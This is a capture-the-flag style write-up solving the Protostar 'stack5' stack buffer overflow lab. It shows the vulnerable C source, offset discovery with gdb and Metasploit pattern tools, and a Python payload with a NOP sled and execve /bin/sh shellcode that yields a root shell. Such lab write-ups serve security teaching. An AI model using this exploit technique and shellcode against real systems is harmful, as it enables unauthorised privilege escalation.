


#### Stack5

###### About

- Stack5 is a standard buffer overflow, this time introducing shellcode.
- This level is at ``/opt/protostar/bin/stack5``
- Hints
	- At this point in time, it might be easier to use someone elses shellcode
	- If debugging the shellcode, use ``\xcc`` ``int3`` to stop the program executing and return to the debugger
	- Remove the int3s once your shellcode is done

``stack5.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack5
AAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*100" | ./stack5
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
root@kali:~#
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'" | ./stack5
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > /tmp/pay
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /tmp/pay
Starting program: /opt/protostar/bin/stack5 < /tmp/pay

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb)
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 63413563
[*] Exact match at offset 76
root@kali:~#
```

```/tmp/buf.py```

```python
import struct

buf = "A" * 76
buf += struct.pack("<I",0xd3adc0d3)

print buf
```

```sh
user@protostar:/opt/protostar/bin$ python /tmp/buf.py > /tmp/out
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /tmp/out
Starting program: /opt/protostar/bin/stack5 < /tmp/out

Program received signal SIGSEGV, Segmentation fault.
0xd3adc0d3 in ?? ()
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAA
0x80483da <main+22>:	ret
0xbffff7bc:	0xb7eadc76	0x00000001	0xbffff864	0xbffff86c
0xbffff7cc:	0xb7fe1848	0xbffff820	0xffffffff	0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) si
0xb7eadc76 <__libc_start_main+230>:	mov    DWORD PTR [esp],eax
0xbffff7c0:	0x00000001	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x08048232
__libc_start_main (main=0x80483c4 <main>, argc=1, ubp_av=0xbffff864, init=0x80483f0 <__libc_csu_init>, fini=0x80483e0 <__libc_csu_fini>, rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff85c)
    at libc-start.c:260
260	libc-start.c: No such file or directory.
	in libc-start.c
(gdb)
```





```/tmp/buf.py```

```python
import struct

padding = "A" * 76
eip = struct.pack("I",0xbffff7c0)
nopsled = "\x90"*100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print padding+eip+nopsled+shellcode
```

```sh
user@protostar:/tmp$ python buf.py | /opt/protostar/bin/stack05
bash: /opt/protostar/bin/stack05: No such file or directory
close failed in file object destructor:
Error in sys.excepthook:

Original exception was:
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ (python buf.py;cat) | /opt/protostar/bin/stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
^C
user@protostar:/tmp$
```